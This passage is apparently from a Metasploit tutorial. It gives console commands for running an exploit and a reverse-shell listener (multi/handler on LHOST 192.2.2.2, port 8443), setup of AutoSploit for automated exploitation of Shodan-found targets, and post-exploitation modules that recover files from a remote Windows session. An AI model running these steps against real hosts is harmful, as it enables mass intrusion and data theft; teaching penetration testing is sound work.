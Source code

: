       
    
    msf6> set LHOST 192.2.2.2
    
    msf6> show options
    
    mfs6> exploit
    
    msf6> use exploit/multi/handler
    
    msf6> set LHOST 192.2.2.2
    
    msf6> set LPORT 8443

  

**AutoSploit**

  

AutoSploit combines the power of two tools, Shodan and Metasploit. AutoSploit uses Shodan to find specific targets based upon their banners and then Metasploit to automate the use of powerful exploits.

  

    kali> git clone https://github.com/NullArray/AutoSploit
    
    kali> pip install shodan
    
    kali> pip install blessings
    
    kali> python autosploit.py

  

You will then be asked whether you want to use the default modules or the default fuzzers (2). select default modules or "2"

  

**Metasploit for Remote Windows Forensics**

    kali> cd /usr/share/metasploit-framework/modules/post/windows/gather/forensics
    
    kali> ls -l
    
    meterpreter> background
    
    msf6>use post/windows/gather/forensics/enum_drives
    
      
    
    msf6> set SESSION 1
    
    msf6> exploit
    
    msf6> use post/windows/gather/forensics/recovery_files
    
      
    
    msf6> show options
    
    mfs6> set TIMEOUT 7200
    
    msf6> exploit

To recover this deleted file, we must set the FILES parameter to that file number and exploit it again

